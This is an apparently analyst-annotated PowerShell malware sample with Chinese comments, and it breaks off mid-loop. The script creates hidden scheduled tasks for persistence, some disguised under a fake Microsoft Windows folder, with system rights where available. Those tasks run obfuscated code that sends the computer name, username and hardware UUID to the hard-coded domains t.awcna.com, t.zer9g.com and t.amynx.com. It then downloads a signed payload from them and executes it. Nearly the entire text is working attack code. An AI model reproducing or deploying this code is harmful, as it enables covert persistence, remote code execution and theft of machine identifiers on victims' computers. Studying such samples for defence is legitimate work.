 

```powershell
$v="?$v"+(Get-Date -Format '_yyyyMMdd')
# 存储攻击指令的变量
$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient)."DownloadData"($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'
# 判断当前是否是超级管理员权限
$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
# DGA函数(其实是纯随机字串函数)
function getRan(){return -join([char[]](48..57+65..90+97..122)|Get-Random -Count (6+(Get-Random)%6))}
$us=@('t.awcna.com','t.zer9g.com','t.amynx.com')
$stsrv = New-Object -ComObject Schedule.Service
$stsrv.Connect()
# 查看是否已经存在名为blackball的定时任务
try{
	$doit=$stsrv.GetFolder("\").GetTask("blackball")
}catch{}
if(-not $doit){
	if($sa){
		schtasks /create /ru system /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	} else {
		schtasks /create /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	}
	foreach($u in $us){
		# 获取域名下标
		$i = [array]::IndexOf($us,$u)
		# 根据除3余数，选择计划任务名
		if($i%3 -eq 0){$tnf=''}
		if($i%3 -eq 1){$tnf=getRan}
		if($i%3 -eq 2){if($sa){$tnf='MicroSoft\Windows\'+(getRan)}else{$tnf=getRan}}
		$tn = getRan
		if($sa){
			# 每60分  执行命令powershell PS_CMD  /F 阻止系统确认消息
			schtasks /create /ru system /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		} else {
			schtasks /create /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		}
		start-sleep 1
		# 获取指定位置的定时任务
		$folder=$stsrv.GetFolder("\$tnf")
		# 获取非隐藏任务以外的所有任务
		$taskitem=$folder.GetTasks(1)
		foreach($task in $taskitem){
			foreach ($action in $task.Definition.Actions) {
				try{
					# 若参数中存在PS_CMD
					if($action.Arguments.Contains("PS_CMD")){	
						# 替换为攻击指令
						$folder.RegisterTask($task.Name, $task.Xml.replace("PS_CMD",$tmps.replace('U1',$u.substring(0,5)).replace('U2',$u.substring(5))), 4, $null, $null, 0, $null)|out-null
					}
				}catch{}
			}
```